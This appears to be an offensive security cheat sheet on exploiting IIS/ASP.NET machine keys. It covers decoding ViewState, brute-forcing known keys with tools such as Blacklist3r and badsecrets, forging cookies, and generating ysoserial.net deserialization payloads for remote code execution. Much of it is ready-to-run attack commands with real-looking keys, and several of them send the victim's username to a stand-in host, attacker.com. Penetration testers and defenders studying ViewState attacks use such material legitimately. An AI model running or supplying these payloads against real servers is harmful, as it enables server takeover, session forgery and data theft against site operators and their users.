 # IIS Machine Keys

> That machine key is used for encryption and decryption of forms authentication cookie data and view-state data, and for verification of out-of-process session state identification.

## Summary

* [Viewstate Format](#viewstate-format)
* [Machine Key Format And Locations](#machine-key-format-and-locations)
* [Identify Known Machine Key](#identify-known-machine-key)
* [Decode ViewState](#decode-viewstate)
* [Generate ViewState For RCE](#generate-viewstate-for-rce)
    * [MAC Is Not Enabled](#mac-is-not-enabled)
    * [MAC Is Enabled And Encryption Is Disabled](#mac-is-enabled-and-encryption-is-disabled)
    * [MAC Is Enabled And Encryption Is Enabled](#mac-is-enabled-and-encryption-is-enabled)
* [Edit Cookies With The Machine Key](#edit-cookies-with-the-machine-key)
* [References](#references)


**Requirements**

* `__VIEWSTATE`
* `__VIEWSTATEGENERATOR`* 


## Viewstate Format

ViewState in IIS is a technique used to retain the state of web controls between postbacks in ASP.NET applications. It stores data in a hidden field on the page, allowing the page to maintain user input and other state information.

| Format | Properties |
| --- | --- |
| Base64 | `EnableViewStateMac=False`,  `ViewStateEncryptionMode=False` |
| Base64 + MAC | `EnableViewStateMac=True` |
| Base64 + Encrypted | `ViewStateEncryptionMode=True` |

By default until Sept 2014, the `enableViewStateMac` property was to set to `False`.
Usually unencrypted viewstate are starting with the string `/wEP`.


## Machine Key Format And Locations

A machineKey in IIS is a configuration element in ASP.NET that specifies cryptographic keys and algorithms used for encrypting and validating data, such as view state and forms authentication tokens. It ensures consistency and security across web applications, especially in web farm environments. 

The format of a machineKey is the following.

```xml
<machineKey validationKey="[String]"  decryptionKey="[String]" validation="[SHA1 (default) | MD5 | 3DES | AES | HMACSHA256 | HMACSHA384 | HMACSHA512 | alg:algorithm_name]"  decryption="[Auto (default) | DES | 3DES | AES | alg:algorithm_name]" />
```

The `validationKey` attribute specifies a hexadecimal string used to validate data, ensuring it hasn't been tampered with. 

The `decryptionKey` attribute provides a hexadecimal string used to encrypt and decrypt sensitive data. 

The `validation` attribute defines the algorithm used for data validation, with options like SHA1, MD5, 3DES, AES, and HMACSHA256, among others. 

The `decryption` attribute specifies the encryption algorithm, with options like Auto, DES, 3DES, and AES, or you can specify a custom algorithm using alg:algorithm_name.

The following example of a machineKey is from Microsoft documentation (https://docs.microsoft.com/en-us/iis/troubleshoot/security-issues/troubleshooting-forms-authentication).

```xml
<machineKey validationKey="87AC8F432C8DB844A4EFD024301AC1AB5808BEE9D1870689B63794D33EE3B55CDB315BB480721A107187561F388C6BEF5B623BF31E2E725FC3F3F71A32BA5DFC" decryptionKey="E001A307CCC8B1ADEA2C55B1246CDCFE8579576997FF92E7" validation="SHA1" />
```

Common locations of **web.config** / **machine.config**

* 32-bits
    * `C:\Windows\Microsoft.NET\Framework\v2.0.50727\config\machine.config`
    * `C:\Windows\Microsoft.NET\Framework\v4.0.30319\config\machine.config`
* 64-bits
    * `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\config\machine.config`
    * `C:\Windows\Microsoft.NET\Framework64\v2.0.50727\config\machine.config`
* in the registry when **AutoGenerate** is enabled (extract with https://gist.github.com/irsdl/36e78f62b98f879ba36f72ce4fda73ab)
    * `HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\4.0.30319.0\AutoGenKeyV4`  
    * `HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\2.0.50727.0\AutoGenKey`


## Identify Known Machine Key

Try multiple machine keys from known products, Microsoft documentation, or other part of the Internet.

* [isclayton/viewstalker](https://github.com/isclayton/viewstalker)

    ```powershell
    ./viewstalker --viewstate /wEPD...TYQ== -m 3E92B2D6 -M ./MachineKeys2.txt
    ____   ____.__                       __         .__   __
    \   \ /   /|__| ______  _  _________/  |______  |  | |  | __ ___________ 
    \   Y   / |  |/ __ \ \/ \/ /  ___/\   __\__  \ |  | |  |/ // __ \_  __ \
    \     /  |  \  ___/\     /\___ \  |  |  / __ \|  |_|    <\  ___/|  | \/
    \___/   |__|\___  >\/\_//____  > |__| (____  /____/__|_ \\___  >__|   
                    \/           \/            \/          \/    \/       

    KEY FOUND!!!
    Host:   
    Validation Key: XXXXX,XXXXX
    ```

* [blacklanternsecurity/badsecrets](https://github.com/blacklanternsecurity/badsecrets)

    ```ps1
    python examples/blacklist3r.py --viewstate /wEPDwUK...j81TYQ== --generator 3E92B2D6
    Matching MachineKeys found!
    validationKey: C50B3C89CB21F4F1422FF158A5B42D0E8DB8CB5CDA1742572A487D9401E3400267682B202B746511891C1BAF47F8D25C07F6C39A104696DB51F17C529AD3CABE validationAlgo: SHA1
    ```

* [NotSoSecure/Blacklist3r](https://github.com/NotSoSecure/Blacklist3r)

    ```powershell
    AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --purpose=viewstate  --valalgo=sha1 --decalgo=aes --modifier=CA0B0334 --macdecode --legacy
    ```

* [0xacb/viewgen](https://github.com/0xacb/viewgen)

    ```powershell
    $ viewgen --guess "/wEPDwUKMTYyOD...WRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
    [+] ViewState is not encrypted
    [+] Signature algorithm: SHA1
    ```

List of interesting machine keys to use:

* [NotSoSecure/Blacklist3r/MachineKeys.txt](https://github.com/NotSoSecure/Blacklist3r/raw/f10304bc90efaca56676362a981d93cc312d9087/MachineKey/AspDotNetWrapper/AspDotNetWrapper/Resource/MachineKeys.txt)
* [isclayton/viewstalker/MachineKeys2.txt](https://raw.githubusercontent.com/isclayton/viewstalker/main/MachineKeys2.txt)
* [blacklanternsecurity/badsecrets/aspnet_machinekeys.txt](https://raw.githubusercontent.com/blacklanternsecurity/badsecrets/dev/badsecrets/resources/aspnet_machinekeys.txt)


## Decode ViewState

* [BApp Store > ViewState Editor](https://portswigger.net/bappstore/ba17d9fb487448b48368c22cb70048dc) - ViewState Editor is an extension that allows you to view and edit the structure and contents of V1.1 and V2.0 ASP view state data.
* [0xacb/viewgen](https://github.com/0xacb/viewgen)
    ```powershell
    $ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
    ```


## Generate ViewState For RCE

First you need to decode the Viewstate to know if the MAC and the encryption are enabled. 

### MAC Is Not Enabled

```ps1
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/:UserName"
```


### MAC Is Enabled And Encryption Is Disabled

* Find the machine key (validationkey) using `badsecrets`, `viewstalker`, `AspDotNetWrapper.exe` or `viewgen` 
    ```ps1
    AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --purpose=viewstate  --valalgo=sha1 --decalgo=aes --modifier=CA0B0334 --macdecode --legacy
    # --modifier = `__VIEWSTATEGENERATOR` parameter value
    # --encrypteddata = `__VIEWSTATE` parameter value of the target application
    ```

* Then generate a ViewState using [pwntester/ysoserial.net](https://github.com/pwntester/ysoserial.net), both `TextFormattingRunProperties` and `TypeConfuseDelegate` gadgets can be used.
    ```ps1
    .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/:UserName" --generator=CA0B0334 --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"
    .\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "powershell.exe -c nslookup http://attacker.com" --generator=3E92B2D6 --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"

    # --generator = `__VIEWSTATEGENERATOR` parameter value
    # --validationkey = validation key from the previous command
    ```


### MAC Is Enabled And Encryption Is Enabled

Default validation algorithm is `HMACSHA256` and the default decryption algorithm is `AES`.

If the `__VIEWSTATEGENERATOR` is missing but the application uses .NET Framework version 4.0 or below, you can use the root of the app (e.g: `--apppath="/testaspx/"`). 

* **.NET Framework < 4.5**, ASP.NET always accepts an unencrypted `__VIEWSTATE` if you remove the `__VIEWSTATEENCRYPTED` parameter from the request
    ```ps1
    .\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "echo 123 > c:\windows\temp\test.txt" --apppath="/testaspx/" --islegacy --validationalg="SHA1" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0" --isdebug
    ```

* **.NET Framework > 4.5**, the machineKey has the property: `compatibilityMode="Framework45"`
    ```ps1
    .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "echo 123 > c:\windows\temp\test.txt" --path="/somepath/testaspx/test.aspx" --apppath="/testaspx/" --decryptionalg="AES" --decryptionkey="34C69D15ADD80DA4788E6E3D02694230CF8E9ADFDA2708EF43CAEF4C5BC73887" --validationalg="HMACSHA256" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0"
    ```


## Edit Cookies With The Machine Key

If you have the `machineKey` but the viewstate is disabled.

ASP.net Forms Authentication Cookies : https://github.com/liquidsec/aspnetCryptTools

```powershell
# decrypt cookie
$ AspDotNetWrapper.exe --keypath C:\MachineKey.txt --cookie XXXXXXX_XXXXX-XXXXX --decrypt --purpose=owin.cookie --valalgo=hmacsha512 --decalgo=aes

# encrypt cookie (edit Decrypted.txt)
$ AspDotNetWrapper.exe --decryptDataFilePath C:\DecryptedText.txt
```


## References

* [Deep Dive into .NET ViewState Deserialization and Its Exploitation - Swapneil Kumar Dash - October 22, 2019](https://swapneildash.medium.com/deep-dive-into-net-viewstate-deserialization-and-its-exploitation-54bf5b788817)
* [Exploiting Deserialisation in ASP.NET via ViewState - Soroush Dalili - April 23, 2019](https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)
* [Exploiting ViewState Deserialization using Blacklist3r and YSoSerial.Net - Claranet - June 13, 2019](https://www.claranet.com/us/blog/2019-06-13-exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserialnet)
* [Project Blacklist3r - @notsosecure - November 23, 2018](https://www.notsosecure.com/project-blacklist3r/)
* [View State, The Unpatchable IIS Forever Day Being Actively Exploited - Zeroed - July 21, 2024](https://zeroed.tech/blog/viewstate-the-unpatchable-iis-forever-day-being-actively-exploited/)